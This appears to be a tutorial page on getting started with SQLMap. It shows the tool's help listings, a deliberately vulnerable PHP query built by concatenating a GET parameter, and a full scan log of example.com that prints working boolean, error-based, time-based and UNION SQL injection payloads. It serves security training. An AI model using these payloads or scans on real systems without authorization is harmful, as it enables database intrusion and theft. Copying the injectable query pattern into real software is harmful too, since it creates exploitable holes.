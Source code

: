 # Getting Started with SQLMap

Upon starting using SQLMap, the first stop for new users is usually the program's help message. To help new users, there are two levels of help message listing:

* `Basic Listing` shows only the basic options and switches, sufficient in most cases (switch `-h`):

```shell-session
$ sqlmap -h
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs
...SNIP...
```

* `Advanced Listing` shows all options and switches (switch `-hh`):

```shell-session
$ sqlmap -hh
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -d DIRECT           Connection string for direct database connection
    -l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
    -m BULKFILE         Scan multiple targets given in a textual file
    -r REQUESTFILE      Load HTTP request from a file
    -g GOOGLEDORK       Process Google dork results as target URLs
    -c CONFIGFILE       Load options from a configuration INI file

  Request:
    These options can be used to specify how to connect to the target URL

    -A AGENT, --user..  HTTP User-Agent header value
    -H HEADER, --hea..  Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
    --method=METHOD     Force usage of given HTTP method (e.g. PUT)
    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --param-del=PARA..  Character used for splitting parameter values (e.g. &)
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --cookie-del=COO..  Character used for splitting cookie values (e.g. ;)
...SNIP...
```

For more details, users are advised to consult the project's [wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage), as it represents the official manual for SQLMap's usage.

***

## Basic Scenario

In a simple scenario, a penetration tester accesses the web page that accepts user input via a `GET` parameter (e.g., `id`). They then want to test if the web page is affected by the SQL injection vulnerability. If so, they would want to exploit it, retrieve as much information as possible from the back-end database, or even try to access the underlying file system and execute OS commands. An example SQLi vulnerable PHP code for this scenario would look as follows:

```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

As error reporting is enabled for the vulnerable SQL query, there will be a database error returned as part of the web-server response in case of any SQL query execution problems. Such cases ease the process of SQLi detection, especially in case of manual parameter value tampering, as the resulting errors are easily recognized:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To run SQLMap against this example, located at the example URL `http://www.example.com/vuln.php?id=1`, would look like the following:

```shell-session
$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

{% hint style="info" %}
**Note:** in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
{% endhint %}
